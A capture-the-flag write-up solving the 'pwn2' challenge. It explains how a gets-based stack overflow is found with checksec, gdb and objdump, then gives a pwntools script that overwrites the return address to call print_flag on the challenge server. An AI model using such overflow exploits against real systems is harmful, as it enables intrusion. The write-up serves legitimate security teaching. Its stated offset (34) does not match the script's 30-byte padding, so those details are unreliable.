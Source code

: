 ## pwn2
#### Standard for all pwn challenges - we start a simple reconnaisance by using checksec
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### We get the same properties such as the previous pwn challenge. Starting the binary, we get a prompt which asks us which function to call:
```
$ ./pwn2
    Which function would you like to call?
```
#### It waits for user input, and if the user enters a valid function name, it executes that function, else it exits. But we don't really know which functions to call, so we fire up gdb and look at the disassembly of the binary.
```
$ gdb ./pwn2
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x0000080d <+49>:	add    esp,0x10
       0x00000810 <+52>:	sub    esp,0xc
       0x00000813 <+55>:	lea    eax,[ebx-0x1670]
       0x00000819 <+61>:	push   eax
       0x0000081a <+62>:	call   0x500 <puts@plt>
       0x0000081f <+67>:	add    esp,0x10
       0x00000822 <+70>:	sub    esp,0xc
       0x00000825 <+73>:	lea    eax,[ebp-0x27]
       0x00000828 <+76>:	push   eax
       0x00000829 <+77>:	call   0x4e0 <gets@plt>
       0x0000082e <+82>:	add    esp,0x10
       0x00000831 <+85>:	sub    esp,0xc
       0x00000834 <+88>:	lea    eax,[ebp-0x27]
       0x00000837 <+91>:	push   eax
       0x00000838 <+92>:	call   0x77f <select_func>
       [...]
```
#### Interestingly enough, a ```gets``` call is executed to ask for the user input, which can be the entry point for our exploit. But another function to take note of is ```select_func``` which uses the buffer at ```[ebp-0x27]``` as the argument. Let's have a look at all the functions in the binary so we know what options are available for us to choose from:
```
gdb-peda$ info functions
    [...]
    0x000006ad  two
    0x000006d8  print_flag
    0x00000754  one
    0x0000077f  select_func
    0x000007dc  main
    [...]
```
#### We see the functions main and select func, which we already know by disassembling the main function of the binary. And we see the interesting functions, one, two, and print_flag: if we try to input these options in the prompt, maybe it'll give us the flag of the challenge.
```
$ ./pwn2
Which function would you like to call?
one
This is function one!

$ ./pwn2
two

$ ./pwn2
print_flag
```
#### Sadly, we get nothing out of it. We do want to be able to execute the print_flag function tho, as we know it prints the flag for us. Remember that the input uses ```gets``` to get user input? We can utilize that vulnerability to perform a buffer overflow into overwriting the ```eip``` register to point to the address of the ```print_flag``` function. Before we do that, we need to know the address of the function. We can do that using *objdump*:
```
$ objdump -M intel -d pwn2 | grep print_flag
    000006d8 <print_flag>:
        [...]
```
#### We take a note that ```print_flag```'s address is at ```0x000006d8```. Next thing we need to know is the exact size of the buffer to trigger the segmentation fault. Though the buffer is stored at address ```[ebp-0x27]``` which has a size of 39, the exact offset to overflow the buffer and overwrite the eip register is at offset 34. We can now create a short exploit script and send the result to the server to get the flag.
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4322
conn = remote(HOST, PORT)

#: Exploit code
offset = 'A' * 30
eip = p32(0x000006d8)
exploit = offset + eip

#: Send data
print(conn.recvline())
conn.sendline(exploit)
print(conn.recvline())
print(conn.recvline())
```
#### And the script returns us the flag!
```
$ python exploit.py

    Which function would you like to call?

    This function is still under development.

    gigem{4ll_17_74k35_15_0n3}
```
